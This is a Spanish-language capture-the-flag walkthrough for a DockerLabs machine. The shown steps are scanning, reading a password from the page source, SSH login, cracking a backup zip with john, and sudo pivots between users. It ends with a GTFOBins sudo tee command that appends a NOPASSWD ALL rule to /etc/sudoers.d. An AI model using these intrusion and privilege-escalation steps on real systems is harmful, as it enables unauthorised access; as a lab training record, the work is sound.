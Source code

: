 nmap: 80, 8899
![[dockerlabs/medio/bashpariencias/nmap.png]]

---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![[dockerlabs/medio/bashpariencias/pagina principal 1.png]]

      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![[dockerlabs/medio/bashpariencias/codigo fuente.png]]
"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:
![[dockerlabs/medio/bashpariencias/conexion1.png]]

encontré esto:
![[encuentro1.png]]

dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip
![[dockerlabs/medio/bashpariencias/paso1.png]]

nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash_zip
          john hash_zip

y nos da la contraseña:
![[dockerlabs/medio/bashpariencias/contraseña1.png]]
ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash
![[contraseña2.png]]
probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.
